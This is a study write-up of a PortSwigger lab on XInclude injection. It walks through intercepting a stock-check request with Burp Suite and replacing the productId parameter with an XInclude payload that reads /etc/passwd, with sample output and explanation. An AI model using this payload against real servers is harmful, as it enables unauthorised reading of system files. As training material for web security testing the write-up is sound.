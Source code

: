 # 📦 Lab: Exploiting XInclude to Retrieve Files
## 📝 **High-Level Summary:**

### 🎯 **Objective:**

Retrieve the contents of `/etc/passwd` using an `XInclude` attack.

### 🔑 **Key Techniques/Concepts:**

- **XInclude Injection:** Embedding an `XInclude` element to access sensitive files.
    
- **XML Parsing:** Bypassing traditional XXE constraints by leveraging `XInclude`.
    

### 🧠 **Key Learning:**

- Understanding how `XInclude` works as an alternative to XXE.
    
- Importance of identifying different XML processing techniques in server-side parsing.
    

---
## 🎯 **Lab URL (if applicable):**

PortSwigger Lab Link

## 📖 **PortSwigger Lab Description:**

This lab has a "Check stock" feature that embeds user input into a server-side XML document that is parsed. Since the entire XML document cannot be controlled, a traditional XXE attack is not possible. The goal is to inject an `XInclude` statement to retrieve the contents of `/etc/passwd`.

## ✅ **PortSwigger Solution:**

1. **Generate Traffic:**
    
    - Visit a product page on the web application.
        
    - Click "Check stock" and intercept the request using Burp Suite.
        
2. **Identify the Vulnerable Parameter:**
    
    - Locate the `POST` request to `/product/stock/`.
        
    - Identify the `productId` parameter in the request body:
        
    
    ```
    productId=2&storeId=1
    ```
    
3. **Craft the Payload:**
    
    - Replace the `productId` parameter with the following XInclude payload:
        
    
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    ```
    
4. **Send the Payload:**
    
    - Submit the modified request using Burp Suite's Repeater.
        
    - If successful, the contents of `/etc/passwd` will be returned in the response.
        

---

## 🎓 **Instructor Solution:**

1. **Source Reference:**
    
    - Instructor referred to the [PayloadAllTheThings XInclude Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xinclude-attacks) repository.
        
2. **Generate Traffic:**
    
    - Click "View details" on a product, then "View stock" to generate traffic.
        
3. **Identify Vulnerable Parameter:**
    
    - The vulnerable request was located in Burp Suite with the `POST` request to `/product/stock/`:
        
    
    ```
    productId=2&storeId=1
    ```
    
4. **Craft and Send Payload:**
    
    - The instructor replaced the `productId` with:
        
    
    ```
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>&storeId=1
    ```
    
    - Sent the payload, revealing the `/etc/passwd` file contents.
        

---
## 📦 **Step-by-Step Solution:**

### 🔥 **Traffic Generation/Initial Steps:**

- Visit a product page and click **"View Stock"**.
    
- Intercept the `POST` request using Burp Suite.
    

```
POST /product/stock/
Host: target.com
Content-Type: application/x-www-form-urlencoded

productId=2&storeId=1
```

---

### 🧩 **Payload Construction/Execution:**

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>&storeId=1
```

- The payload attempts to retrieve the `/etc/passwd` file by injecting the `XInclude` directive.
    

---

### 📊 **Result:**

- The server responded with the contents of the `/etc/passwd` file, confirming successful exploitation.
    

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
```

---

### ✅ **Completion:**

- The lab is completed once `/etc/passwd` is revealed.
    

---

## 📚 **Why This Solution Works:**

- `XInclude` allows external file inclusion even when a traditional XXE attack is restricted.
    
- By setting `parse="text"`, the server treats the file content as plain text instead of XML.

---

### 📦 **XInclude Attack Summary**

**What is XInclude?**  
XInclude (XML Inclusions) allows you to pull external resources (like files) into an XML document using the `<xi:include>` tag.

---

**Key Components:**

1. **Namespace Declaration (Required)**
    
    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    ```
    
    - This **activates** the XInclude feature in XML.
    - The URL `"http://www.w3.org/2001/XInclude"` is **not a link** but a **label** for the XML parser to recognize XInclude functionality.
2. **File Inclusion Payload:**
    
    ```xml
    <xi:include parse="text" href="file:///etc/passwd"/>
    ```
    
    - **`href`** specifies the file to retrieve (`/etc/passwd` in this case).
    - **`parse="text"`** ensures the file content is returned as plain text.

---

**How the Attack Works:**

1. The namespace (`xmlns:xi`) **enables** the use of `<xi:include>`.
2. The payload with `href="file:///etc/passwd"` tries to load a local file.
3. If successful, the server returns the file content in the response.

---

✅ **Key Insight:**

- The **namespace activates the feature**, while the **`href`** specifies the target file.
- Without the namespace, the XML parser won't understand the `<xi:include>` tag.

---

## 📖 **Key Concepts & Definitions:**

- **XInclude:** A feature of XML allowing inclusion of external resources.
    
- **XXE:** XML External Entity injection, a server-side injection vulnerability.
    

---

## 🛠️ **Tools Used:**

- **Burp Suite:** Used to intercept and modify web requests.
    
- **PayloadAllTheThings:** Reference repository for payload examples.
    

---

## 🏷️ **Hashtags/Tags:**

#CyberSecurity #PenTesting #BurpSuite #XInclude #XXE
